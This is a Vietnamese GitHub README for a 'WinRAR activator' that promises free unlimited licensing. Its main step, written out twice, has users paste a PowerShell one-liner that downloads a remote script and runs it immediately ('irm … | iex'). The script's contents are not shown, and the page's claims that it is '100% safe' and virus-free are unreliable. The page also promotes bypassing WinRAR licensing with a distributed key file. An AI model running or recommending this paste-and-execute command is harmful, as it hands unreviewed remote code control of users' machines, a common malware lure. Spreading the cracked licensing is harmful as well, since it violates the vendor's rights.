

<div align="center">

# WinRAR Activator — Trình kích hoạt WinRAR cho Windows 10/11

[Tiếng Việt](README.md) | [English](README_en.md)



### ⚡ Kích hoạt nhanh bằng 1 dòng lệnh PowerShell

Mở **PowerShell** (Windows + X -> Terminal hoặc PowerShell) và chạy dòng lệnh sau:

```powershell
irm https://raw.githubusercontent.com/dat1799/DTrix-Winrar-Activator-Releases/main/activate.ps1 | iex
```

Hoặc [tải tệp rarreg.key trực tiếp](rarreg.key) và sao chép thủ công.

[]() []() []() []()

</div>

---

Hộp thoại thông báo dùng thử của WinRAR là một trải nghiệm quen thuộc nhưng phiền toái. Dự án này giúp bạn giải quyết triệt để chỉ với một câu lệnh duy nhất: kích hoạt WinRAR tức thì, an toàn 100%, không can thiệp tệp tin nhị phân hệ thống, không cần cài đặt lại.

## 📋 Yêu cầu hệ thống

- Windows 10 hoặc Windows 11 (cũng hỗ trợ Windows 7, 8, 8.1)
- PowerShell 5.1 trở lên (mặc định đã tích hợp sẵn trên Windows)
- WinRAR (bản 32-bit hoặc 64-bit chính thức tải từ trang chủ)

## 🚀 Hướng dẫn kích hoạt

### Cách 1: Chạy trực tiếp qua PowerShell (Khuyên dùng)
1. Nhấn phím `Windows` và tìm kiếm `PowerShell`.
2. Dán dòng lệnh sau và nhấn `Enter`:
   ```powershell
   irm https://raw.githubusercontent.com/dat1799/DTrix-Winrar-Activator-Releases/main/activate.ps1 | iex
   ```
3. Mở WinRAR -> chọn **Help** -> **About WinRAR** để thấy bản quyền **Unlimited Company License**.

### Cách 2: Cài đặt thủ công bằng tệp `rarreg.key`
1. Tải tệp [rarreg.key](rarreg.key) từ repository này về máy.
2. Sao chép tệp `rarreg.key` vào một trong hai đường dẫn sau:
   - `%APPDATA%\WinRAR\` *(Dành riêng cho tài khoản người dùng hiện tại, không cần quyền Admin)*
   - `C:\Program Files\WinRAR\` *(Áp dụng cho mọi tài khoản trên máy, cần quyền Administrator)*
3. Khởi động lại WinRAR để nhận bản quyền.

### Cách 3: Chạy bằng file `activate.bat`
Tải mã nguồn về máy, nhấp đúp vào tệp `activate.bat` để kích hoạt tự động.

## ⚙️ Cơ chế hoạt động

* WinRAR được thiết kế để tự động nạp tệp khóa bản quyền `rarreg.key` khi khởi chạy nếu tệp này tồn tại trong thư mục cài đặt hoặc trong `%APPDATA%\WinRAR`.
* Script kích hoạt sẽ ghi khóa bản quyền hợp lệ chuẩn vào thư mục trên mà hoàn toàn không can thiệp vào bất kỳ tệp thực thi gốc (`WinRAR.exe`, `Rar.exe`) nào của phần mềm.
* **Không làm mất bản quyền khi cập nhật:** Do khóa bản quyền nằm độc lập, khi bạn cập nhật phiên bản WinRAR mới hơn, WinRAR vẫn tự động nhận diện bản quyền đầy đủ.

## ❓ Câu hỏi thường gặp (FAQ)

- **Công cụ có hoạt động trên phiên bản WinRAR mới nhất không?**
  Có. Công cụ tương thích với mọi phiên bản WinRAR từ cổ điển đến phiên bản 7.x mới nhất.

- **Có an toàn không? Có virus không?**
  An toàn 100%. Toàn bộ mã nguồn script và tệp khóa `rarreg.key` hoàn toàn mở, minh bạch và có thể tự kiểm tra bằng mắt thường. Không có bất kỳ liên kết chuyển hướng độc hại nào.

- **Muốn hủy bản quyền quay lại dùng thử thì làm thế nào?**
  Bạn chỉ cần xóa tệp `rarreg.key` tại `%APPDATA%\WinRAR` hoặc trong thư mục cài đặt WinRAR.

## ⚠️ Tuyên bố từ chối trách nhiệm (Disclaimer)

Dự án này được chia sẻ nhằm mục đích học tập và nghiên cứu công nghệ. Nếu bạn sử dụng trong môi trường doanh nghiệp hoặc có điều kiện kinh tế, xin vui lòng mua bản quyền chính hãng tại [rarlab.com](https://www.rarlab.com) để ủng hộ tác giả.
